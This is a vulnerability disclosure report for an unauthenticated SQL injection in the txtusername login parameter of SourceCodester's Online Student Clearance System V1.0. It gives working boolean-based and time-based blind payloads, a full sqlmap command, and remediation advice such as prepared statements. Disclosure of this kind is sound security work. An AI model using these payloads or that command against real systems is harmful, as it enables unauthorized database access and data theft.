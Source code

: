 # SourceCodester Online Student Clearance System V1.0 /admin/login.php txtusername parameter SQL injection
# NAME OF AFFECTED PRODUCT(S)
+ Online Student Clearance System in PHP and MySQL

## Vendor Homepage
+ [homepage](https://www.sourcecodester.com/php/17892/online-clearance-system.html)

# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ Angel

## Vulnerable File
+ /admin/login.php

## Vulnerability location:
+ 'txtusername' parameter

## VERSION(S)
+ V1.0

## Software Link
+ [Download Source Code](https://www.sourcecodester.com/sites/default/files/download/Senior%20Walter/student_clearance_system_aurthur_javis.zip)

# PROBLEM TYPE
## Vulnerability Type
+ SQL injection

## Root Cause
+ A SQL injection vulnerability was found in the '/admin/login.php' file of the 'Online Student Clearance System in PHP and MySQL Free Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter 'txtusername' and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact
+ Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION
+ During the security review of "Online Student Clearance System in PHP and MySQL Free Source Code", Angel discovered a critical SQL injection vulnerability in the "/admin/login.php" file. This vulnerability stems from insufficient user input validation of the 'txtusername' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability
# Vulnerability details and POC
## Vulnerability type:
+ <font style="color:#000000;">boolean-based blind</font>
+ <font style="color:#000000;">tiem-based blind</font>

## Payload:
```plain
---
Parameter: txtusername (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: txtusername=-7501' OR 9848=9848 OR 'TqEv'='NoeQ&txtpassword=1&btnlogin=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: txtusername=1' AND (SELECT 9838 FROM (SELECT(SLEEP(5)))Nabu) OR 'GlVC'='KEGc&txtpassword=1&btnlogin=
---
```

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```plain
sqlmap.py -u "172.20.10.5:2222/admin/login.php"  --data="txtusername=1&txtpassword=1&btnlogin=" --batch --level=5 --risk=3 --dbms=mysql --random-agent --tamper=space2comment
```

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1746457158495-2f2043d1-562c-41b1-864a-3094ca4c412d.png)

# Suggested repair
1. **Use prepared statements and parameter binding:**

Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**

Strictly validate and filter user input data to ensure it conforms to the expected format.

3. **Minimize database user permissions:**

Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:**

Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.

